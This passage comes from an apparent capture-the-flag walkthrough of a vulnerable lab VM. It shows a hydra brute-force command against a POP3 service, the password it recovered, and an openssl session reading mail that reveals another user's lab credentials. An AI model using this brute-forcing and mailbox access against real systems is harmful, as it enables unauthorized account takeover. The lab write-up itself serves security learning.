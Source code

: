 
### POP3 Enumeration

I proceeded to perform brute force the pop3 service with the Boris user but was unsuccessful, so I tried it with the Natalya user and found her password.

```bash
root@kali:~$ hydra -l natalya -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt pop3://192.168.179.156 -s 55006  -t 50 -S
...
[55006][pop3] host: 192.168.179.156   login: natalya   password: bird
...
```

Then I logged in to pop3 and found the xenia's creds and a domain name that must be saved in the hosts file of the system.

```bash
root@kali:~$ openssl s_client -connect 192.168.179.156:55006 -crlf -quiet
...
USER natalya
+OK
PASS bird
+OK Logged in.
list
+OK 2 messages:
1 631
2 1048
.
retr 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.
```
